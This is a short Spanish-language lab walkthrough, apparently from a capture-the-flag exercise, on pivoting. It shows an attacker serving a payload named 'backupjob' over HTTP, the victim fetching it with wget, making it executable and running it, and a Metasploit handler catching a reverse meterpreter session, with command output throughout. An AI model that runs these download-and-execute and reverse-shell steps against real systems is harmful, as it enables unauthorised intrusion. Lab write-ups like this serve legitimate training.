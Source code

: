 ```bash
┌─[root@kali]─[/home/user/pivoting]
└──╼ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌─[victima@ubuntu]─[/tmp]
└──╼ wget http://10.10.14.49/backupjob
--2023-08-19 00:29:17--  http://10.10.14.49/backupjob
Connecting to 10.10.14.49:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 250 [application/octet-stream]
Saving to: ‘backupjob’

backupjob                                                   100%[========================================================================================================================================>]     250  --.-KB/s    in 0s      

2023-08-19 00:29:17 (20.2 MB/s) - ‘backupjob’ saved [250/250]

┌─[victima@ubuntu]─[/tmp]
└──╼ chmod +x backupjob       

┌─[victima@ubuntu]─[/tmp]
└──╼ ls
backupjob
```

Ejecutamos el payload y obtenemos acceso por medio de meterpreter.

```bash
┌─[victima@ubuntu]─[/tmp]
└──╼ ./backupjob            
```

Por medio del ```multi/handler``` recibimos la sesión:

```bash
[*] Started reverse TCP handler on 10.10.14.49:8080 
[*] Sending stage (3045348 bytes) to 10.129.3.88
[*] Meterpreter session 15 opened (10.10.14.49:8080 -> 10.129.3.88:34042) at 2023-08-18 20:30:40 -0400

meterpreter > pwd
/tmp
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff::


Interface  2
============
Name         : ens192
Hardware MAC : 00:50:56:b9:21:25
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 10.129.3.88
```